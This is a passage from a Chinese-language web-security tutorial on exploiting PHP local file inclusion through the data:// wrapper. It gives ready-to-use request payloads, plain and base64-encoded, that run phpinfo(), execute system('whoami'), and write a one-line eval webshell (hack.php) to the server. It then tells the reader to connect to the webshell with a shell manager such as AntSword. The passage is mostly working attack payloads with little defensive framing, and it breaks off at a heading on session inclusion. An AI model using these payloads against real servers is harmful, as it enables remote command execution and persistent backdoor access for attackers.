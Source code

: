 ```
fileinclude.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：`&lt;?php phpinfo();?&gt;`。其中加号`+`的url编码为`%2b`。如果不手动url编码会报错：`Parse error:  syntax error, unexpected '?' in data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8  on line 1`

<a class="reference-link" name="data://%EF%BC%88%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%EF%BC%89"></a>**data://（命令执行）**

利用条件：
1. php版本大于等于php5.2
1. allow_url_fopen = On
1. allow_url_include = On
姿势一：

```
fileinclude.php?file=data:text/plain,&lt;?php system('whoami');?&gt;
```

姿势二：

```
fileinclude.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```

其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的base64解码为：`&lt;?php system('whoami');?&gt;`

<a class="reference-link" name="data://%EF%BC%88%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC%EF%BC%89"></a>**data://（写入木马）**

利用条件：
1. php版本大于等于php5.2
1. allow_url_fopen = On
1. allow_url_include = On
姿势一：

```
fileinclude.php?file=data:text/plain,&lt;?php fputs(fopen('hack.php','w'),'&lt;?php @eval($_POST[v])?&gt;');?&gt;
```

[![](https://p0.ssl.qhimg.com/t0124975d224ae1d94b.png)](https://p0.ssl.qhimg.com/t0124975d224ae1d94b.png)

用shell管理工具，比如蚁剑等便能成功连接。

姿势二：

```
fileinclude.php?file=data:text/plain;base64,PD9waHAgZnB1dHMoZm9wZW4oJ2hhY2sucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1Rbdl0pPz4nKTs/Pg==
```

其中`PD9waHAgZnB1dHMoZm9wZW4oJ2hhY2sucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1Rbdl0pPz4nKTs/Pg==`的base64解码为：`&lt;?php fputs(fopen('hack.php','w'),'&lt;?php [@eval](https://github.com/eval)($_POST[v])?&gt;');?&gt;`

### <a class="reference-link" name="%E5%8C%85%E5%90%ABsession"></a>包含session
